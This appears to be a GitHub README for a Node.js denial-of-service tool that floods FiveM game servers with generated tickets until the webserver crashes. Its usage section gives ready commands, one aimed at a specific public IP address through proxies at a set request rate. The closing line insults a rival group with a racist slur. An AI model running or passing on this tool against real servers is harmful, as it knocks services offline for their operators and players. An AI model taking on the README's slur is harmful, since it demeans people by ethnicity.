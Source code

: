 <h2>FiveM Ticket Creation protocol and Flooder</h2>

<h3>Coded by aqu (dv: @2aqu)</h3>

<h4>This script can generate FiveM tickets that when flooding causes high CPU load and makes the webserver crash</h4>

<h3>usage</h3><br>

```sh
node proccess.js http://SERVER:30120/client proxy_file duration request_per_proxy
node proccess.js http://216.151.164.20:30120/client http.txt 120 64
```

## Released because skiddo 3NATC (arabian monkey hill) are using it without my consent
